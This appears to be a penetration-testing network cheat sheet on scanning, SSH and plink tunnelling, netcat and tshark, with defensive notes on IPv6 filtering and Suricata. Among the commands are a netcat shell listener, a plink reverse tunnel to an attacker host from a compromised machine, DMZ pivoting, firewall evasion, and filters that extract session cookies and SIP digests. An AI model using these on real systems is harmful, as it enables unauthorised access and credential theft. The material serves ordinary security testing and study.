


Network
Quick Reference¶
Cheat Sheets
- Nmap: https://blogs.sans.org/pen-testing/files/2013/10/NmapCheatSheetv1.1.pdf
- Wireshark: https://packetlife.net/media/library/13/Wireshark_Display_Filters.pdf
- TcpDump: https://packetlife.net/media/library/12/tcpdump.pdf
- Netcat: https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
- Ncat: https://medium.com/@pentest_it/ncat-cheatsheet-ddc5f07d8533
- Scapy: https://blogs.sans.org/pen-testing/files/2016/04/ScapyCheatSheet_v0.2.pdf
Quick Reference
- How to Find Your Public IP Address on Linux Command Line:
curl https://ipaddr.pub - MAC to IPv6: https://ben.akrin.com/?p=1347
- take the mac address: for example
52:74:f2:b1:a8:7f - throw
ff:fein the middle: 52:74:f2:ff:fe:b1:a8:7f - reformat to IPv6 notation
5274:f2ff:feb1:a87f - convert the first octet from hexadecimal to binary:
52->01010010 - invert the bit at index 6 (counting from 0):
01010010->01010000 - convert octet back to hexadecimal:
01010000->50 - replace first octet with newly calculated one:
5074:f2ff:feb1:a87f - prepend the link-local prefix:
fe80::5074:f2ff:feb1:a87f - https://stackoverflow.com/questions/27693120/convert-from-mac-to-ipv6
format_eui_64() { local macaddr="$1" printf "%02x%s" $(( 16#${macaddr:0:2} ^ 2#00000010 )) "${macaddr:2}" \ | sed -E -e 's/([0-9a-zA-Z]{2})*/0x\0|/g' \ | tr -d ':\n' \ | xargs -d '|' \ printf "%02x%02x:%02xff:fe%02x:%02x%02x" }
- take the mac address: for example
- HTTP Request with
/dev/tcpexec 3<>/dev/tcp/(INTERNAL IP ADDRESS)/80 echo -e "GET / HTTP/1.1\r\nHost: (INTERNAL IP ADDRESS)\r\nConnection: close\r\nUser-Agent: Mozilla/5.0 (X11;Linux x86_64...) Gecko/20100101 Firefox/60.0\r\n\r\n" >&3 cat <&3
- TCP Flag Key: http://rapid.web.unc.edu/resources/tcp-flag-key/
- Network Discovery
nmap -sP 192.168.1.1-255 ettercap -T -i eth0 /// netdiscover -i ens33
- IPv6
ping (TARGET IP ADDRESS) arp -a
Port Scanning¶
- FPing:
for ip in $(seq 1 254);do fping 10.11.1.$ip >> fping.txt;done;grep alive ./fping.txt - Nc:
for ip in $(seq 1 5); do nc -nvv -z 192.168.1.$ip 80 &>> /tmp/ncscan.txt donenc -z -v (TARGET IP ADDRESS) 1-1024 2>/dev/stdout| grep -v refused
- ARP ping:
nmap -sP -PR 10.11.1.0/24 -oG nmap-arp.txt - Ping:
for ip in $(seq 1 254);do ping -c 1 192.168.1.$ip | grep "bytes from" | cut -d" " -f4 | cut -d":" -f1 & done - /dev/tcp:
for port in $(seq 1 65530); do (echo $port > /dev/tcp/$target/$port && printf "[!] $port is open.\n") 2>/dev/null done - Port monitor
watch -n1 nc -w1 -nvz 192.168.1.23 123 # -w1: timeout 1 sec, -n: no reverse lookup, -v: verbose, -z: no IO, act as a scanner
- Nmap: Evade Firewall
-sA- TCP ACK Scan- Because of the ACK packets the firewall cannot create the log
- Firewalls treat ACK packet as the response of the SYN packet
- Open port (few ports in the case of the firewall)
- Closed port (most ports are closed because of the firewall)
- Filtered (Nmap is not sure whether the port is open or not)
- Unfiltered (Nmap can access the port but is still confused about the open status of the port)
-sW- TCP Window Scan- Designed to differentiate between open and closed ports instead of showing unfiltered
- Does not open any active session with the target computer
- Send ACK packets and receive a single RST packet in response
-f,-ff- Fragment Packets-spoof-mac Cisco- Spoof MAC-scan_delay- control the delay between each and every request-host-timeout
- Types of port scans
- TCP Connect Scan:
nc -nvv -w 1 -z <ip> <port-range>- Full 3 way handshake
- SYN / Stealth Scan
- Send SYN
- SYN-ACK means open
- RST means closed
- UDP Scanning:
nc -nv -u -z -w 1 <ip> <port-range>- ICMP port unreachable means closed
- No response means open
- TCP Connect Scan:
- Port Knocking:
for x in 1111, 2222, 3333; do nmap -Pn --host_timeout 201 --scan-delay 0.2 --max-retries 0 -p $x <IP>; done- Look for:
knockd - Configured at:
/etc/knockd.conf
- Look for:
- Scanning Methods
- All TCP and UDP fast scan:
masscan -p1-65535,U:1-65535 <IP> --rate=1000 -e tun0 -p1-65535,U:1-65535 > ports ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//') nmap -Pn -sV -sC -sU -sT -p$ports <IP>
- Quick all TCP scan using Nmap only:
ports=(nmap -p- --min-rate=1000 -T4 <IP> | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) nmap -Pn -sV -sC -sU -sT -p$ports <IP>
- Quick all TCP and UDP scan using Nmap only:
ports=(nmap -p- --min-rate=1000 -T4 <IP> | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) nmap -Pn -sV -sC -sU -sT -p$ports <IP>
nmap -sS -T5 -A -f -v IP nmap -n -Pn -sV --version-all --open -sC -oA [target] --stats-every 120 nmap -T4 -sV -sC -Pn [box ip] -oA [box_name]_initial_scan
- All TCP and UDP fast scan:
- Vulnerability Scanning
- Nmap
nmap -v -p 80 --script http-vuln-cve2010-2861 <ip> nmap -v -p 80 --script all <ip> nmap -v -p 80 -sC <ip> nmap -v -p 80 --script default,safe <ip>
- OpenVAS
openvas-setup https://ip:9392
- Nmap
Port Forwarding / Tunneling¶
Local: ssh <gateway> -L <local port to listen>:<remote host>:<remote port> Remote: ssh <gateway> -R <remote port to bind>:<local host>:<local port> Dynamic: ssh <gateway> -D <port to bind> Local: plink.exe <gateway> -L <local port to listen>:<remote host>:<remote port> Remote: plink.exe <gateway> -R <remote port to bind>:<local host>:<local port> Dynamic: plink.exe <gateway> -D <port to bind>
Local Port Forwarding¶

ssh -L <local-port-to-listen>:<remote-host>:<remote-port> <gateway>
Allow connections to a specific blocked server. From work login to home and use it as a gateway to access banned-site.com:80:
ssh -L 9001:banned-site.com:80 user@home #work curl http://localhost:9001 #home

ssh -L 9001:banned:22 user@home ssh -p 9001 localhost

Allow remote connections to local port forwards (listening on all interfaces)
ssh -L 9001:banned:22 user@home -g ssh -p 9001 work_machine #remotely
Access a port on your server which can only be accessed from localhost and not remotely. Server acts as the gateway and binds server's port 5432 to local port 9000.
ssh -L 9000:localhost:5432 user@server psql -h localhost -p 9000
Remote Port Forwarding¶

Allow remote access to restricted network.
Server will bind port 9001 on home machine to listen for incoming requests which would subsequently be routed through the created SSH channel. Connecting to localhost:9001 in home will forward user to intra:22
ssh -R 9001:intra-ssh-server:22 user@home #work ssh -p 9001 localhost #home

Add GatewayPorts yes to sshd_config to listening on all interfaces.
Allow public access to a local resource through a public server.
ssh -R 9000:localhost:3000 user@public_sever
sudo vim /etc/ssh/sshd_config GatewayPorts yes sudo service ssh restart
Dynamic port forwarding¶
One local port for tunneling data to all remote destinations (SOCKS protocol)
ssh -D 9001 home

Quick Reference¶
- Monitoring Tunnels:
netstat -tunelp - Avoid TTL:
-nNT - Creating reverse SSH client to tunnel-out remote desktop port
- FROM remote non-routable machine
pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389 # localhost 3389 to attacker ip 3389
- FROM attacker's machine
rdesktop localhost:3390
- FROM remote non-routable machine
- SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)
- Create local SOCS4 proxy: From attacker's machine (compromised DMZ)
ssh -D 8080 root@DMZ-IP netstat -antp | grep 8080 /etc/proxychains.conf socks4 127.0.0.1 8080 proxychains nmap -p 3389 -ST -Pn non-routable-remote-ip-range --oepn proxychains rdesktop rdp-ip-in-non-routable-range
- Create local SOCS4 proxy: From attacker's machine (compromised DMZ)
Tools
- rinetd
- When outbound only 80 / 443 use port forwarding (ip1:80 will proxy for ip2:3389)
nano /etc/rinetd.conf ip1 80 ip2 3389
bindaddress bindport connectaddress connectport
- When outbound only 80 / 443 use port forwarding (ip1:80 will proxy for ip2:3389)
- XFLTReaT tunnelling framework: https://github.com/earthquake/XFLTReaT
TCP UDP ICMP SOCKS v4, 4a, 5 HTTP CONNECT SCTP (by Darren Martyn @info_dox) WebSocket DNS (A/CNAME, PRIVATE, NULL) - Proof of Concept RDP (Windows only)
- https://github.com/sshuttle/sshuttle
- https://github.com/klsecservices/rpivot
- https://github.com/wolfSSL/wolfssh
- https://github.com/jpillora/chisel
References
- https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot
- https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/
- http://www.debianadmin.com/howto-use-ssh-local-and-remote-port-forwarding.html
- https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html
New References
Tools¶
- Inject code and spy on wifi users: https://github.com/DanMcInerney/LANs.py
- Collection of PowerShell network security scripts for system administrators: https://github.com/thom-s/netsec-ps-scripts
- CyberScan: Network's Forensics ToolKit
- Sparta: https://github.com/SECFORCE/sparta
- BetterCap - Swiss army knife for network attacks and monitoring: https://www.bettercap.org/
- Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack: https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/#.XGRV3mo06jA.twitter
- Nmap
- Port Related Information:
/usr/share/nmap/nmap-servies - ICMP (Ping) Sweep:
nmap -sn <pi-rage> nmap -sn <ip-range> -oG filename (grepable format)
- Sweep TCP/UDP ports:
nmap -p 80 <ip-range> -oG filename - Sweep full network for top ports:
nmap -sT -A --top-ports=20 <ip-range> -G filename - Script engine:
ls -l /usr/share/nmap/scripts | grep smb - Important flags
-Ofor OS Fingerprinting-sVfor banner grabbing
- Netstat
- Kernel IP routing table:
netstat -nr - Listening ports:
netstat -lpnetstat -lvnp
- Kernel IP routing table:
- Netcat
- Cheat sheet: https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
- General Commands
- Listen on port 567/TCP:
nc -l -p 567 - Connecting to 567 of 1.2.3.4:
nc 1.2.3.4 5676 - Pipe a text file to the listener:
cat infile | nc 1.2.3.4 567 -q 10 - Have the listener save a received text file:
nc -l -p 567 > textfile - Transfer a directory:
- Reciever:
nc -l -p 678 | tar xvfpz - Sender:
tar zcfp - /path/to/directory | nc -w 3 1.2.3.4 678
- Reciever:
- Send a message to your syslog server (the <0> means emerg):
echo '<0>message' | nc -w 1 -u syslogger 514 - Setup a remote shell listener:
nc -v -e '/bin/bash' -l -p 1234 -tnc l p 1234 e "c:\windows\system32\cmd.exe"
- Make an HTTP request:
echo -e "GET http://www.google.com HTTP/1.0nn" | nc -w 5 www.google.com 80 - One-page webserver:
cat homepage.txt | nc -v -l -p 80
- Listen on port 567/TCP:
- General Options
- Use IPv4 addressing only:
nc -4 [options] [host] [port] - Use IPv6 addressing only:
nc -6 [options] [host] [port] - UDP instead of TCP:
nc -u [options] [host] [port] - Listen for an incoming connection:
nc -l [host] [port] - Continue listening after client has disconnected:
nc -k -l [host] [port] - No DNS lookups:
nc -n [host] [port] - Use specific source port:
nc -p [source port] [host] [port] - Use source IP:
nc -s [source ip] [host] [port] - Apply 'n' second timeout:
nc -w [timeout] [host] [port] - Verbose output:
nc -v [host] [port]
- Use IPv4 addressing only:
- Port Scanning
- Scan a single TCP port:
nc -zv hostname.com 80 - Scan a range of ports:
nc -zv hostname.com 80-84 - Scan multiple ports:
nc -zv hostname.com 80 84
- Scan a single TCP port:
- Other
- One page web server:
while : ; do ( echo -ne "HTTP/1.1 200 OK\r\nContent-Length: $(wc -c <index.html)\r\n\r\n" ; cat index.html; ) | nc -l -p 8080 ; done - Proxy:
mknod backpipe p ; nc -l [proxy port] < backpipe | nc [destination host] [destination port] > pipe - Wrap readline history library (support up arrow, etc):
rlwrap nc -t remotehost 23
- One page web server:
- References:
- Port Related Information:
Techniques¶
Domain Fronting¶
Tools
- Psiphon: https://www.psiphon3.com/en/index.html
- Meek: https://trac.torproject.org/projects/tor/wiki/doc/AChildsGardenOfPluggableTransports#meek
References
- Introduction: https://www.andreafortuna.org/cybersecurity/privacy/domain-fronting-in-a-nutshell/
- Usage in APT29: https://www.fireeye.com/blog/threat-research/2017/03/apt29_domain_frontin.html
- Azure (Hardening Your Azure Domain Front): https://medium.com/@rvrsh3ll/hardening-your-azure-domain-front-7423b5ab4f64
- A 101 on Domain Fronting: https://digi.ninja/blog/domain_fronting.php
- Domain Fronting with CloudFront: https://digi.ninja/blog/cloudfront_example.php
Traffic Analysis¶
- Accounting Traffic
#!/bin/bash # Reset counters and iptables rules iptables -Z && iptables -F # Measure incoming traffic from lab machine iptables -I INPUT 1 -s 192.168.1.23 -j ACCEPT # Measure outgoing traffic to lab machine iptables -I OUTPUT 1 -d 192.168.1.23 -j ACCEPT
watch -n 1 iptables -nvL
- Using a Capture:
aircrack-ng captured.cap - Netcap - A framework for secure and scalable network traffic analysis: https://github.com/dreadl0ck/netcap
- PCAP Samples:
- Netresec: https://www.netresec.com/?page=pcapfiles
- Malware Traffic Analysis: https://www.malware-traffic-analysis.net/
- Packettotal (Just like virustotal but for PCAP Analysis): https://packettotal.com/
- https://wiki.wireshark.org/SampleCaptures
- PA Toolkit (Pentester Academy Wireshark Toolkit) - PA Toolkit is a collection of traffic analysis plugins to extend the functionality of Wireshark from a micro-analysis tool and protocol dissector to the macro analyzer and threat hunter: https://github.com/pentesteracademy/patoolkit
- CapAnalysis: https://drive.google.com/uc?authuser=0&id=1Lf8yU7alFZdRlT6WstKjngN2RAp-1jG8&export=download
- Netsh (Windows)
netsh trace show capturefilterhelp netsh trace show scenarios netsh trace show globalkeywordsandlevel
netsh trace start capture=yes IPv4.Address=192.168.122.2 netsh trace start scenario=InternetClient,InternetServer,NetConnection globalLevel=win:Verbose capture=yes report=yes traceFile=C:\temp\trace\trace001.etl netsh trace stop
- Use Microsoft Network Monitor 3.4 to view: https://www.microsoft.com/en-us/download/details.aspx?id=4865
- Convert to PAC from: https://github.com/microsoft/etl2pcapng
- Use powershell to convert:
$s = New-PefTraceSession -Path “C:\output\path\spec\OutFile.Cap” -SaveOnStop $s | Add-PefMessageProvider -Provider “C:\input\path\spec\Input.etl” $s | Start-PefTraceSession
- tcpdump to show HTTP request/response headers
- https://serverfault.com/questions/504431/human-readable-format-for-http-headers-with-tcpdump
sudo tcpdump -A -s 10240 'tcp port 4080 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)' | egrep --line-buffered "^........(GET |HTTP\/|POST |HEAD )|^[A-Za-z0-9-]+: " | sed -r 's/^........(GET |HTTP\/|POST |HEAD )/\n\1/g'
sudo stdbuf -oL -eL /usr/sbin/tcpdump -A -s 10240 "tcp port 4080 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)" | egrep -a --line-buffered ".+(GET |HTTP\/|POST )|^[A-Za-z0-9-]+: " | perl -nle 'BEGIN{$|=1} { s/.*?(GET |HTTP\/[0-9.]* |POST )/\n$1/g; print }'
- https://serverfault.com/questions/504431/human-readable-format-for-http-headers-with-tcpdump
- tcpdump
tcpdump -i eth1 -s 0 port not 22 tcpdump -i eth1 -s 0 port not 22 and port not 53 tcpdump -i eth1 port not 22 and host 1.2.3.4
TSHark¶
- General
- Supported network interfaces:
tshark -D - Sniff on eth0:
tshark -i eth0 - Open
pcap:tshark -r HTTP_traffic.pcap - Read 100 packets from
pcap:tshark -r HTTP_traffic.pcap -c 100 - Print full details for first 10 Packets:
tshark -r HTTP_traffic.pcap -c 10 -V - List of protocols in
pcap:tshark -r HTTP_traffic.pcap -z io,phs -q - Export into PDML:
tshark -r HTTP_traffic.pcap -T pdml > http.xml - PDML to HTML:
xsltproc /usr/share/wireshark/pdml2html.xsl http.xml > http.html
- Supported network interfaces:
- HTTP
- Only the HTTP traffic:
tshark -Y 'http' -r HTTP_traffic.pcap - IP packets sent from IP address 192.168.252.128 to 52.32.74.91?:
tshark -r HTTP_traffic.pcap -Y "ip.src==192.168.252.128 && ip.dst==52.32.74.91" - Packets containing GET requests:
tshark -r HTTP_traffic.pcap -Y "http.request.method==GET" - Print only source IP and URL for all GET request packets:
tshark -r HTTP_traffic.pcap -Y "http.request.method==GET" -Tfields -e frame.time -e ip.src -e http.request.full_uri - Packets contain the "password" string:
tshark -r HTTP_traffic.pcap -Y "http contains password” - Destination IP for GET requests sent to New York Times (www.nytimes.com):
tshark -r HTTP_traffic.pcap -Y "http.request.method==GET && http.host==www.nytimes.com" -Tfields -e ip.dst - Session ID being used by 192.168.252.128 for Amazon India store (amazon.in)?:
tshark -r HTTP_traffic.pcap -Y "ip contains amazon.in && ip.src==192.168.252.128" -Tfields -e ip.src -e http.cookie - Type of OS 192.168.252.128 is using:
tshark -r HTTP_traffic.pcap -Y "ip.src==192.168.252.128 && http" -Tfields -e http.user_agent
- Only the HTTP traffic:
- HTTPS
- Only show SSL traffic?:
tshark -r HTTPS_traffic.pcap -Y 'ssl' - Only print the source IP and destination IP for all SSL handshake packets:
tshark -r HTTPS_traffic.pcap -Y "ssl.handshake" -Tfields -e ip.src -e ip.dst - List issuer name for all SSL certificates exchanged:
tshark -r HTTPS_traffic.pcap -Y "ssl.handshake.certificate" -Tfields -e x509sat.printableString - Print the IP addresses of all servers accessed over SSL:
tshark -r HTTPS_traffic.pcap -Y "ssl && ssl.handshake.type==1" -Tfields -e ip.dst - IP addresses associated with Ask Ubuntu servers (askubuntu.com):
tshark -r HTTPS_traffic.pcap -Y "ip contains askubuntu" - The IP address of the user who interacted with with Ask Ubuntu servers (askubuntu.com)
tshark -r HTTPS_traffic.pcap -Y "ip.dst==151.101.1.69 || ip.dst==151.101.193.69 || ip.dst==151.101.129.69 || ip.dst==151.101.65.69" -Tfields -e ip.src - What DNS servers were used:
tshark -r HTTPS_traffic.pcap -Y "dns && dns.flags.response==0" -Tfields -e ip.dst - Name of the antivirus solution:
tshark -r HTTPS_traffic.pcap -Y "ip contains avast" -Tfields -e ip.src
- Only show SSL traffic?:
- WiFi
- Show only WiFi traffic:
tshark -r WiFi_traffic.pcap -Y "wlan" - View the deauthentication packets:
tshark -r WiFi_traffic.pcap -Y "wlan.fc.type_subtype==0x000c" - Display WPA handshake packets:
tshark -r WiFi_traffic.pcap -Y "eapol" - Print the SSID and BSSID values for all beacon frames:
tshark -r WiFi_traffic.pcap -Y "wlan.fc.type_subtype==8" -Tfields -e wlan.ssid -e wlan.bssid - What is BSSID of SSID "LazyArtists":
tshark -r WiFi_traffic.pcap -Y "wlan.ssid==LazyArtists" -Tfields -e wlan.bssid - Channel of SSID "Home_Network":
tshark -r WiFi_traffic.pcap -Y "wlan.ssid==Home_Network" -Tfields -e wlan_radio.channel - Devices that received deauth messages:
tshark -r WiFi_traffic.pcap -Y "wlan.fc.type_subtype==0x000c" -Tfields -e wlan.ra - Which device does MAC 5c:51:88:31:a0:3b belongs to:
tshark -r WiFi_traffic.pcap -Y "wlan.ta==5c:51:88:31:a0:3b && http" -Tfields -e http.user_agent - Beacon frames present:
tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008' - Unique list of all AP BSSIDs:
tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008' -T fields -e wlan.bssid | sort | uniq - Unique list of all AP SSIDs:
tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008' -T fields -e wlan.ssid | sort | uniq - Only non-null SSIDs:
tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008 && !(wlan.tag.length ==0)' -T fields -e wlan.ssid | sort | uniq - Unique list of SSID and BSSIDs side by side for all AP networks:
tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008' -T fields -e wlan.ssid -e wlan.bssid | sort | uniq
- Show only WiFi traffic:
- VoIP
- Show VoIP traffic:
tshark -r VoIP_traffic.pcap -Y "sip or rtp" - Print all REGISTER packets:
tshark -r VoIP_traffic.pcap -Y "sip.Method==REGISTER" - Only print the source IP, sender extension and authorization digest response for REGISTER packets:
tshark -r VoIP_traffic.pcap -Y "sip.Method==REGISTER" -Tfields -e ip.src -e sip.from.user -e sip.auth.digest.response - Print all codecs being used by RTP protocol:
tshark -r VoIP_traffic.pcap -Y "sdp" -Tfields -e sdp.media - User who is using the Zoiper VoIP client:
tshark -r VoIP_traffic.pcap -Y "sip contains Zoiper" -Tfields -e ip.src - IP address of the SIP server used to place calls:
tshark -r VoIP_traffic.pcap -Y "sip.Method==REGISTER" -Tfields -e ip.dst - Content of the text message sent to +918108591527?:
tshark -r VoIP_traffic.pcap -Y "sip.Method == MESSAGE" -V (Read the content) - Extensions completed a call successfully:
tshark -r VoIP_traffic.pcap -Y "sip.Method==BYE" -Tfields -e sip.from.user -e sip.to.user
- Show VoIP traffic:
Defense¶
- Phishing Blacklist: https://www.phishing.army/
IPV6¶
- Disallow traffic from unallocated IP address spaces
- Implement Anti-Spoofing perimeter ACL:
- No packet with a source address of your network allocation can ENTER your network.
- No packet with a destination address of your network allocation can LEAVE your network.
- Two categories of traffic
- Traffic initiated from perimeter security device
- Traffic that is in-transit across perimeter
- Transit Traffic
- Transit Traffic Category Recommendations
- Start with a DENY ALL approach, and then allow selectively. Ensures that all unassigned/experimental types are DROPPED.
- Allow Type 1: Destination Unreachable. Filter selectively allowing only specific codes such as code 4 - port unreachable.
- Allow Type 2: Packet too large. (Do not break path MTU discovery)
- Allow Type 3, Code 0 only. (TTL/Hop limit expired)
- Allow Type 4, Codes 0 and 1 only related to header errors.
- Transit traffic filtering continued…
- Optionally allow ICMP types 128/129 (echo request/reply) based on local ICMP security policy.
- Allow ICMP types 144 through 147 ONLY if your IPv6 network is “mobility enabled”. Many may choose to leave this in default drop state.
- Optionally allow ICMP Multicast related messages (types 151 - 153).
- ONLY applicable if you participate in global multicast sourcing.
- ICMP type 137 (Redirect) represents a direct security threat and should always be dropped at the perimeter.
- Transit Traffic Category Recommendations
- Non-transit
- Traffic initiated from perimeter security devices
- Again start with a DENY ALL policy
- Use the same recommendations as transit above with the exception of the mobility enabled class
- Additional messages to ALLOW should be:
- Types 133/134: Router solicitation / advertisement
- Types 135/136: Neighbor solicitation / advertisement
- Types 141/142: Inverse neighbor solicitation / advertisement
- Multicast Filtering
- Likely assumption for most is to not participate in global/inter-domain multicast
- Any packet with a multicast source address should be dropped
- Reserved and unused multicast destinations should be dropped.
- Probably most other multicast destinations will be blocked in a perimeter context.
- You don’t want any site or organization local traffic crossing the perimeter
- Realm-local scoped traffic will be confined to specific technologies.
- The decision to drop realm-local will have to be policy based.
- Global multicast should be dropped if not participating inter-domain.
- Likely assumption for most is to not participate in global/inter-domain multicast
- Protocol Normalization
- IPv6 has a protocol header field labeled “Next Header”.
- Normal OSI Layer 4 headers are called an “Upper Layer Header”
- There can be chained “Extension Headers” in the frame before UL Header.
IDS/IPS - Suricata¶
- Installation:
sudo add-apt-repository ppa:oisf/suricata-stable sudo apt-get update sudo apt-get install suricata
- Update:
suricata-update- With cron:
0 0 * * * /usr/bin/suricata-update && kill -USR2 $(pidof suricata) > /dev/null 2>&1suricata-update update-sources suricata-update list-sources suricata-update enable-source <name> suricata-update add-source <name> <url> suricata-update remove-source <name> suricata-update list-enabled-sources
- With cron:
- Reload:
kill -USR2 $(pidof suricata) - Config:
/etc/suricata/suricata.yamlHOME_NET– Internal network which is to be protectedEXTERNAL_NET– External network;af-packet interface– Network interface which Suricata should use for monitoring.
- Logs:
/var/log/suricataeve.json: Network events and alerts in Extensible Event Formatsuricata.log: Service messagesfast.log: Network events and alerts in single line formatted.
- Rules:
/var/lib/suricata/rules(OOTB rules are at/etc/suricata/rules)- Referenced from config file at
rule-files section.
- Referenced from config file at
- Rule Types:
Pass– let the packet through without generating an alertDrop– if matched, drop and logdReject– similarlydrop, and both the sender and receiver will receive a reject packetAlert– the packet is allowed through but an alert will be generated
- Supported porotocals: https://suricata.readthedocs.io/en/suricata-4.1.4/rules/intro.html#protocol
- Rule format:
"Source IP" "Source port" -> "Destination IP" "Destination port""Source IP" "Source port" <> "Destination IP" "Destination port"- Example:
$EXTERNAL_NET any -> $HOME_NET 22
- Options:
msg– informationsid– unique ID number of the rulerev– version of the rule (incremented by 1 when the rule is updated)(msg:"Suspicious connection @ 1111"; sid:1111; rev:1;)
- Example Rule:
